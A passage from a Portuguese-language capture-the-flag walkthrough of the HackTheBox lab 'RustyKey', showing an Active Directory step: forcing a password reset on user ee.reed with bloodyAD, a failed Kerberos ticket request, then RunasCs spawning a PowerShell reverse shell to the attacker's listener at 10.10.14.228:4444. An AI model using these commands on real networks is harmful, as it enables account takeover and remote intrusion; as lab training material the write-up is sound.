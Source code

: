 ### Obtendo o EE.REED

Voltando para o `Bloodhound`, vemos que também temos a permissão de `ForceChangePassword` no usuário **EE.REED** e que ele faz parte do grupo `Support`:

![ee.reed](https://res.cloudinary.com/dmx1j4rjb/image/upload/v1761776850/63aa35fa-1fb4-45ce-adb6-d5accdfb693e.png)

Então do mesmo jeito que mudamos a senha do **BB.MORGAN**, iremos mudar também a do **EE.REED**:
```bash
KRB5CCNAME='IT-Computer3$.ccache' bloodyAD --host "dc.rustykey.htb" -d "rustykey.htb" -k set password 'ee.reed' 'Piroquinha123!'

[+] Password changed successfully!
```

Porém ao tentar solicitar um TGT do **EE.REED** recebemos o seguinte erro:
```bash
getTGT.py -dc-ip "dc.rustykey.htb" rustykey.htb/"ee.reed":'Piroquinha123!'  
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```

Então teremos que pegar shell de outra maneira. Estarei utilizando o [RunasCs](https://github.com/antonioCoco/RunasCs) de dentro da máquina para isso:

```bash
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ./runas.exe ee.reed 'Piroquinha123!' powershell -r 10.10.14.228:4444 --force-profile

[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-2b12c42$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 5404 created in background.
```
```bash
rlwrap nc -lvnp 4444

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.75.
Ncat: Connection from 10.10.11.75:57195.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
rustykey\ee.reed

```

